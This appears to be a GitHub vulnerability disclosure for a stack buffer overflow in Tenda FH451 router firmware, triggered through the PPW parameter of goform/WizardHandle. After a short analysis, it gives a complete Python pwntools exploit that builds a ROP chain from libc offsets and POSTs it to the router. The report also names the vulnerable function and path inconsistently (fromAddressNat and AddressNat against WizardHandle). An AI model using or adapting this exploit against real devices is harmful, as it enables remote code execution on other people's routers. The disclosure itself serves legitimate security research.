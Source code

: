 # Shenzhen Jixiang Tengda Technology Co., Ltd. FH451 has a Remote Code Execution vulnerability

**Vulnerability URL**: [http://0.0.0.0:80/goform/WizardHandle](http://0.0.0.0:80/goform/WizardHandle)

**Firmware Download Link:** [https://www.tenda.com.cn/material/show/1629](https://www.tenda.com.cn/material/show/1629)

## Vulnerability Analysis
The vulnerability occurs in the `fromAddressNat` function.

![Image 1](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle1.png)

![Image 2](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle2.png)

![Image 3](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle3.png)

This function accepts the `WANT` and `WANS` parameter from a POST request. Within `v45` == 2, this function accepts the `PPW` parameter from a POST request, which is assigned to `sub_3C434(v30, v5)`;. However, since the user has control over the input of `PPW`, the function `decodePwd()` leads to a buffer overflow. The user-supplied `PPW` can exceed the capacity of the `v5` array, which can lead to a program crash or potential exploitation.  

![Image 4](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle4.png)

The disassembled code of the function `sub_3C434` is as follows. It can be observed that this function does not perform bounds checking. It copies the `result` parameter byte-by-byte into the `a2` pointer parameter, which may potentially lead to a stack overflow.
Cross-referenced location: from the `fromWizardHandle` function, routed to `WizardHandle`, at line 18.
![Image 5](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle5.png)

Further cross-referenced to the `sub_64EAC` function, with attention to lines 44 and 47.
![Image 6](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat3.png)

It can be determined that the vulnerability occurs at the page path `goform/AddressNat`.

## payload
```python
import requests
from pwn import *

libc = ELF('./squashfs-root/lib/libc.so.0')
system_offset = libc.symbols["system"]
base = 0x3fe36000

system_addr = base + system_offset
puts = base+libc.symbols['puts']
str = b"hello-I-am-fzz\x00"
mov_r0 = base+0x00040cb8 # mov r0, sp; blx r3;
pop_r3 = base+0x00018298 # pop {r3, pc};
payload = b'a'*524 + p32(pop_r3)+p32(puts)+p32(mov_r0)+str

ip = '0.0.0.0:80'
url = f"http://{ip}/goform/WizardHandle"
data = {"WANS":"-1","WANT":"2","PPW":payload}
ret = requests.post(url, data)
```

# reproduce
![Image 7](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle6.png)
![Image 8](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle7.png)
![Image 9](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle8.png)
